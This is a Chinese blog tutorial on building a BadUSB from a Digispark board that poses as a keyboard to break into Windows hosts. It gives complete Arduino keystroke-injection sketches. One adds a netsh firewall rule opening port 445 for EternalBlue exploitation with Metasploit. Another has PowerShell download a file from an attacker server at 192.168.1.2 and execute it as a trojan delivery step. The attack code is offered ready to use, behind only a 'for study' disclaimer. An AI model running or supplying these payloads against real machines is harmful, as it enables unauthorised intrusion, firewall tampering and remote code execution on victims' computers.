 ```yaml
---
title: badusb的学习记录&入侵windows主机
index_img: /img/2018-06-12/badusb.png
date: 2018-06-12 00:35:47
tags: 
- 硬件安全
- badusb
---
```


### 写在前面
&emsp;&emsp;对于人们熟悉的网络安全，一旦发现漏洞可以很快的应对和修补，然而对于硬件安全，漏洞的危害即使不是很大也要耗费很大的人力物力才可以把有问题的设施更换掉，对于一些比更大的漏洞就更加难并且花费巨大
<!--more-->

#### 知识准备
![badusb](/img/2018-06-12/badusb.png)
&emsp;&emsp;灯灯灯凳，这个就是我们的主角啦
&emsp;&emsp;对于第一次玩硬件的小伙伴，硬件入门不难，但是要有耐心，很多时候是需要不断的去调试代码，查找资料，所以一定要有耐心。
##### 一、U盘的结构
&emsp;&emsp;要想理解badusb攻击的方法就要先了解U盘的结构，U盘的主要结构如下
```
|--------|---------------|
|  固件  |   数据存储区   |
|--------|---------------|
```
 &emsp;&emsp;U盘由芯片控制器和闪存两部分组成（也间接说明为什么U盘的额空间总是不够写的那么大），芯片控制器负责与PC的通讯和识别，闪存用来做数据存储；闪存中有一部分区域用来存放U盘的固件，它的作用类似于操作系统，控制软硬件交互；固件无法通过普通手段进行读取。
##### usb协议
&emsp;&emsp;现在很多设备都是用usb接口，摄像头、U盘、鼠标、键盘，无线键鼠的接收器，等等，为了兼容这么多设备，设计USB协议标准的时候就没有要求每个USB设备向网络设备那样占有一个唯一可识别的MAC地址让系统进行验证，而是允许一个USB设备多个输入输出设备的特征。
&emsp;&emsp;问题就是在这里，当你插进一个U盘时电脑并没有鉴别你的U盘到是不是真的U盘，这样我们就有机可乘了
![xixixi](/img/2018-06-12/xixixi.png)
##### 入侵原理
正常的U盘插到电脑里的大概流程是下面这样的
```
           电脑识别为U盘的固件
固件信息-------------------------->U盘----->读取U盘的内容----->示U盘的内容
```
构造badusb的固件让电脑识别为键盘
```
           电脑识别为键盘的固件
固件信息-------------------------->键盘
```
再构造里面的内容
```
键盘----->模拟人敲命令----->根据写好的脚本敲命令
```
##### 材料准备
&emsp;&emsp;材料清单
- Digispark（也就是我们的主角）
- Arduino（编写以及把脚本写到badusb里的程序）
- 脚本

#### 开干
##### 安装驱动
驱动下载地址，链接：[http://pan.baidu.com/s/1i4K10dn](http://pan.baidu.com/s/1i4K10dn) 密码：ilaf
```
下载好后运行`DPinst64.exe`，32位系统点击`DPinst.exe`,一路回车等待安装完成
下载编写程序的开发软件[https://www.arduino.cc/en/Main/Software](https://www.arduino.cc/en/Main/Software)
运行Arduino，在首选项中添加开发板网址[http://digistump.com/package_digistump_index.json](http://digistump.com/package_digistump_index.json)(不同的板网址不同)
```
![1](/img/2018-06-12/1.png)
在工具-->开发板-->开发板管理器里，下载这个驱动,等待下载完成即可
![2](/img/2018-06-12/2.png)
```
选择Digispark开发板
编译器选择USBtinyISP
```
![3](/img/2018-06-12/3.png)
![4](/img/2018-06-12/4.png)
到这里所有准备就做好了
![xixixi](/img/2018-06-12/xixixi.png)
##### 写脚本
先看一眼商家给的教程
![jiaocheng](/img/2018-06-12/jiaocheng.png)
![emmm...](/img/2018-06-12/emmm.jpg)
在我的印象中应该是写一个木马进固件然后一插进电脑就黑进去的啊[捂脸][捂脸][捂脸]
算了，先一步一步跟着教程摸索下
最终代码如下，修改了一点点
```
#include "DigiKeyboard.h"
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76

void setup() {

DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd"));
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("echo"));
DigiKeyboard.sendKeyStroke(0,MOD_SHIFT_LEFT);
DigiKeyboard.print(F(" "));
DigiKeyboard.print(F("Team233"));
DigiKeyboard.sendKeyStroke(0,MOD_SHIFT_LEFT);
DigiKeyboard.sendKeyStroke(KEY_ENTER);


}


void loop() {

}
```
编译...没问题,上传...O98k
![7](/img/2018-06-12/7.png)
激动人心的时候到了，重新插进电脑去,10秒后...
![final](/img/2018-06-12/final.png)
![6](/img/2018-06-12/6.png)
到目前为止就算badusb就算做好了
#### 进阶教程
上面只是简单的尝试，接下来要进行更高级的用法
![gif](/img/2018-06-12/1.gif)
然鹅。。。。。
![8](/img/2018-06-12/8.png)
![9](/img/2018-06-12/9.jpg)
只有这么点容量怎么写马，而且商家没说，网上也找不到，怎么写。。。。。
忽然想起当时买这个的时候有好多个版本。。。
我绝对不会告诉你我是因为它<b>~~比较便宜~~</b>体积小迷你好看才买它的
经过我一番沉思与实践之后
如果目标是win7系统，我们可以利用终端打开445端口，然后使用永恒之蓝漏洞直接getshell
如果目标是win10，我们可以从我们搭好的服务器下载木马饭后执行木马程序，对win7也同样适用
cmd开启445端口命令如下
```
netsh advfirewall firewall add rule name="open 445" dir=in action=allow protocol=TCP localport=445
```
编写好的脚本代码如下
```
#include "DigiKeyboard.h"
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76

void setup() {
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_M,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("cmd"));
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("netsh advfirewall firewall add rule name=")); 
DigiKeyboard.print(char(34)); 
DigiKeyboard.print(F("open445")); 
DigiKeyboard.print(char(34)); 
DigiKeyboard.print(F(" dir=in protocol=tcp localport=445 action=allow"));
DigiKeyboard.sendKeyStroke(KEY_ENTER);

}


void loop() {

}
```
在kali下nmap可以看到445端口已经打开,msf直接漏洞利用就可以实现getshell
![445](/img/2018-06-12/445.png)
win10系统下载测试文件Team233.png的脚本代码如下
```
#include "DigiKeyboard.h"
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76

void setup() {
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_M,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("pow"));
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(MOD_SHIFT_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(0,MOD_SHIFT_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.print(F("$client = new-object System.Net.WebClient"));
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.print(F(" $client.DownloadFile('http://192.168.1.2/Team233.png', '.")); 
DigiKeyboard.print(char(92)); 
DigiKeyboard.print(F("Team233.png')"));
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.print(F("."));
DigiKeyboard.print(char(92)); 
DigiKeyboard.print(F("Team233.png"));
DigiKeyboard.sendKeyStroke(KEY_ENTER);

}


void loop() {

}
```
效果就参考我录的视频吧
链接: [https://pan.baidu.com/s/1m8Ob16yuFoNVjzHoz6VrNQ](https://pan.baidu.com/s/1m8Ob16yuFoNVjzHoz6VrNQ) 密码: c9he
<b>未经允许不得传播</b>
<b>本文仅供学习之用，不负任何法律责任<b>